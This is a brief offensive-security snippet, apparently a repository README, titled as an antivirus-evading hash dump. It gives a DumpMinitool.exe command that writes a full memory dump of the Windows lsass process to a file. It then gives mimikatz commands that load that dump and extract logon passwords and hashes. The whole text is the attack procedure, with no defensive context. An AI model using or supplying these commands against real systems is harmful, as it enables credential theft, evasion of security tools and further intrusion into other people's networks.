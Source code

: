 # 免杀DumpHash

```bash
DumpMinitool.exe --file 1.txt--processId isass(PID) --dumpType Full
```

mimikatz

```bash
sekurlsa::minidump xxx\1.txt
sekurlsa::logonpasswords
```
